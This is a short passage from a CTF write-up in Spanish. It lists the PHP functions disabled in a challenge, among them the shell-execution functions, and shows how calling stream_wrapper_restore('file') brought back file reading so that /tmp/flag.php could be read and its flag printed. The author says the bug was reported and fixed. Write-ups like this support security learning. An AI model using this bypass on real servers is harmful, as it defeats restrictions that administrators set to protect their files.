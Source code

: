 ````

En el momento en el que se resuelto este reto estaban deshabilitadas las siguientes funciones.

```
[0] => show_source
[1] => system
[2] => shell_exec
[3] => passthru
[4] => exec
[5] => popen
[6] => fopen
[7] => proc_open
[8] => mail
[9] => stream_wrapper_register
[10] => include
[11] => include_once
[12] => require
[13] => require_once
[14] => parse_ini_file
[15] => proc_open
[16] => curl_exec
[17] => set_time_limit
[18] => move_uploaded_file
[19] => file_get_contents
[20] => copy
[21] => file
[22] => glob
[23] => parse_ini_file
```

Despues de varias pruebas, encontre la funcion [stream_wrapper_restore('protocol')](https://secure.php.net/manual/es/function.stream-wrapper-restore.php), la cual permite restaurar a valores por defecto el wrapper del protocolo indicado.

Así que, restauramos el protocolo 'file' y leemos el contenido del archivo /tmp/flag.php

```
Input:
<?php
stream_wrapper_restore('file');
$content = file_get_contents('/tmp/flag.php', NULL, NULL, 11, 45);
var_dump($content);
?>
Output:
string(34) ""fwhibbit{F4st_Cg1_SSRF_P0w3r!}";"
```

Finalmente, tras contactar con el responsable de la prueba, la función de restaurar el wrapper debía de estar deshabilitada. Por lo que. además de conseguir la first blood, obtener una flag de 500 puntos se encontro un bug en el CTF el cual fue reparado inmediatamente.




